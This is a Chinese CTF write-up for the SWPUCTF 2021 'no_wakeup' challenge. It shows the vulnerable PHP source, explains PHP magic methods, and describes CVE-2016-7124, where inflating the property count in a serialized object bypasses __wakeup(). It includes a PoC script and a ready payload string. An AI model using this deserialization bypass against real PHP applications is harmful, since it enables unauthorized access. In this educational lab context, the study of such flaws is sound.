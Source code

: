 # [SWPUCTF 2021 新生赛]no_wakeup


# [SWPUCTF 2021 新生赛]no_wakeup

![](https://pic.imgdb.cn/item/653a4d8ac458853aeff8d7ea.jpg)

![](https://pic.imgdb.cn/item/653a4db3c458853aeff9609e.jpg)

```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0); 
show_source("class.php");

class HaHaHa {
    public $admin;
    public $passwd;

    public function __construct() {
        $this->admin = "user";
        $this->passwd = "123456";
    }

    public function __wakeup() {
        $this->passwd = sha1($this->passwd); // 将 passwd 字段哈希化
    }

    public function __destruct() {
        if ($this->admin === "admin" && $this->passwd === "wllm") {// 如果 admin 和 passwd 匹配
            include("flag.php"); 
            echo $flag; 
        } else {
            echo $this->passwd;
            echo "No wake up"; 
        }
    }
}
$Letmeseesee = $_GET['p']; // 从 GET 请求中获取名为 'p' 的参数
unserialize($Letmeseesee); // 反序列化 'p' 参数
?>
```

**传给 unserialize() 的参数可控且存在 Magic 方法，存在反序列化漏洞**

__destruct() 在对象被销毁时调用

当变量 admin 的值为 "admin"、变量 passwd 的值为 "wllm" 时才会输出 flag

但是在对象被反序列化时调用的 __wakeup() 会把变量 passwd 的值加密，所以只要 \_\_wakeup() 被执行，不管变量 passwd 的值是什么，加密后肯定不等于 "wllm"，唯一的办法就是让 \_\_wakeup() 不被执行

> **Magic方法：**
>
> __construct()：构造函数，当对象创建时调用
>
> __destruct()：析构函数，当对象被销毁时调用
>
> __toString()：当对象被当作字符串时使用
>
> __sleep()：在对象序列化的时候调用
>
> __wakeup()：在对象被反序列化时调用
>
> 从序列化到反序列化这几个函数的执行过程：
>
> \_\_construct() ->\_\_sleep() -> \_\_wakeup() -> \_\_toString() -> \_\_destruct()
>
> 详情参考：[PHP反序列化漏洞详解（万字分析、由浅入深）](https://blog.csdn.net/Hardworking666/article/details/122373938)

​	

**CVE-2016-7124 (绕过 __wakeup() )**

**漏洞影响版本：**

- PHP 5 ~ 5.6.25
- PHP 7 ~ 7.0.10

**漏洞利用方法：**

若在对象的魔法函数中存在的 \_\_wakeup() 方法，在调用 unserilize() 方法进行反序列化之前会先调用\_\_wakeup() 方法，**但如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，会跳过 \_\_wakeup() 的执行**

在演示 CVE-2016-7124 漏洞前先把反序列化漏洞的 poc 写出来：

```php
<?php
class HaHaHa
{
   public $admin = "admin";
   public $passwd = "wllm";

}
$obj = new HaHaHa();
$a = serialize($obj);
echo "?p=".$a;
?> 
```

运行后得到 payload ：`?p=O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";} `

如果直接把这个 payload 拿去执行，会因为 \_\_wakeup() 的执行而达不到效果

其中 O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";} 是反序列化的结果，2 代表对象属性个数(admin、passwd)，如果把 2 改成更大的数，就会导致 CVE-2016-7124 漏洞，即 \_\_wakeup() 不会被执行

![](https://pic.imgdb.cn/item/653a5707c458853aef1ba027.jpg)

